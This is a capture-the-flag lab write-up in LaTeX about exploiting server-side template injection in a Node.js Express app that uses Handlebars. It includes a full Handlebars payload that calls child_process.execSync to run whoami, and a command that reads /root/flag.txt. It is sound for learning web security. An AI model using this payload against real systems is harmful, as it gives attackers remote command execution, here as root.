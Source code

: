 \documentclass[a4paper,10pt]{article}
\begin{document}
What software is running the service listening on the http/web port identified in the first question? \texttt{node.js}, from Wappalyzer.

What is the name of the Web Framework according to Wappalyzer? \texttt{Express}, from Wappalyzer.

What is the name of the vulnerability we test for by submitting \texttt{{{7*7}}}? Server-Side Template Injection. \url{https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection}.

What is the templating engine being used within Node.JS? \texttt{handlebars}, from \texttt{node.js}. Can be seen by putting \texttt{{{7*7}}} in the email entry.

What is the name of the BurpSuite tab used to encode text? Decoder. I need to study BurpSuite. The idea is to encode the SSTI code from HackTricks into an URL.

In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use? \texttt{URL}.

When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error? \texttt{require}. It's from a node.js module.

What variable is the name of the top-level scope in Node.JS? \texttt{global}.

HackTricks' payload for \texttt{handlebars} uses a module called \texttt{require}, which is not global in \texttt{node.js} and we can not access it. But if we search in the documentation \url{https://nodejs.org/api/globals.html}, we see that the module \texttt{process} is global and have similar functionality as \texttt{require}. So, we modify the payload to use the \texttt{process} module. Remember it has to be encoded into an URL.
\begin{js}
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push
        "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
\end{js}

The \texttt{whoami} command through the payload returns \texttt{root} in BurpSuite.
Change the command to \texttt{cat /root/flag.txt} and we have our flag!

By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user? \texttt{root}.
\end{document}

